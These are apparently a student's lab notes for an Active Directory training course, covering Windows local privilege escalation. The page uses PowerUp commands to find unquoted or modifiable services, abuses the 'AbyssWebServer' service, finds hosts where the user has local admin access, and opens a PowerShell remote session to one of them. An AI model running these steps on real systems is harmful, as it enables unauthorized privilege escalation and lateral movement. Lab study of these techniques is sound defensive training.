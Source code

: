 ```yaml
---
description: >-
  Task - Elevate local privs on studentvm, Identify where we have local admin
  access.
---
```


# Obj 5 Local Priv Esc

{% hint style="success" %}
We will be using PowerUp.ps1 for this objective
{% endhint %}

## Find Unquoted service paths

```
Get-ServiceUnquoted
```

## Find service files we can modify

```
Get-ModifiableServiceFile -Verbose
```

## Find services we can modify

```
Get-ModifiableService
```

## Abuse a service we found to be modifiable

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
```

{% hint style="warning" %}
Once we abuse this service we need to log off and back on for the escalation to take affect.
{% endhint %}

## Find where we have local admin access

```
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

{% hint style="warning" %}
We can now use winrs or PSSremoting to access any machines listed from the command above.
{% endhint %}

## PSSremote into another machine as local admin

```
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## Jenkins....

Coming soon...
